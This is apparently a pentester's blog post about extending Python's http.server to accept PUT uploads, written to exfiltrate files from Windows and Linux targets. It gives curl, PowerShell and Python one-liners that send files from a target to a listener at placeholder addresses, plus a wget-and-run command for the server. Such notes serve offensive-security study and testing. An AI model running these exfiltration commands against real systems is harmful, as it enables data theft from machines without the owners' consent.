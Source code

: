 ```yaml
---
title: Python HTTP Server with PUT Support
date_created: 2021-07-23
date_updated: 
metadata: research
---
```

# Python HTTP Server with PUT Support

Given that it is possible to exfiltrate files using `/dev/tcp` as discussed [here](/exploring-dev-tcp) for some Linux machines, I needed other ways to exfiltrate files for Windows systems or Linux systems that don't have bash.

This led me to the Python3 module `http.server`. Extending its functionalities to support `PUT` requests should allow me to exfiltrate files from other machines. This way, it would be possible to send files from various systems as long as we can build HTTP requests. 

The code is available in this [repository](https://github.com/w0lfram1te/extended-http-server).

## Quick Use

Commands shown below in case you want to get into the action quickly and without sifting through files the repository. This will download the file and launch the server on port 8000 and will listen on all interfaces by default. 

```bash
wget https://raw.githubusercontent.com/w0lfram1te/extended-http-server/main/ehttpserver.py
python3 ehttpserver.py
```

Since this is modeled after the base `http.server` module, it is also possible to indicate port and bind address. Shown below is the help screen from `python3 ehttpserver.py --help` for more information.

```
usage: ehttpserver.py [-h] [-b BIND] [-p PORT] [port]

Extended HTTP Server by w0lfram1te

positional arguments:
  port                  listening port

optional arguments:
  -h, --help            show this help message and exit
  -b BIND, --bind BIND  bind address
  -p PORT, --port PORT  listening port
```

## Sending Data

Now that we have a web server we can `PUT` files to, we can use the following techniques to send it over. Use whichever is available on the target machine.

1. **curl PUT Request**. Not all systems have curl, though, so do check beforehand. 

	```bash
	curl -T FILE http://local.ip/
	```
	
2. **Powershell PUT Request**. Assuming powershell is available on most Windows systems, this should cover most of Windows machines that we may encounter in the wild.

	```powershell
	$body = get-content 'c:\Users\user\test.txt'
	$uri = 'http://192.168.1.1:8000/test.txt'
	invoke-webrequest -method PUT -uri $uri -body $body -usebasicparsing
	```
	
	Here's a one-liner version in case some restrictions are in place. This should work on a basic command prompt without having to drop into a powershell prompt.
	
	```powershell
	powershell -c "invoke-webrequest -method PUT -usebasicparsing -uri http://192.168.1.1:8000/test.txt -body (get-content test.txt)"
	```
	
3. **Python Requests PUT**. Though this one seems overkill at this point considering the availability of the other options. May be good to have in the future just in case. 
	
	```bash
	python3 -c 'import requests; import os; filename="test.txt"; length=os.path.getsize(filename); requests.put("http://127.0.0.1:8000/"+filename, data=open(filename, "r").read(length))'
	```
	
	Theoretically we can use any scripting language with support for HTTP requests but I thought Python would be the easiest to implement and should be the most available on machines. 

	Maybe a perl version would be good as well but that'll be something for the future.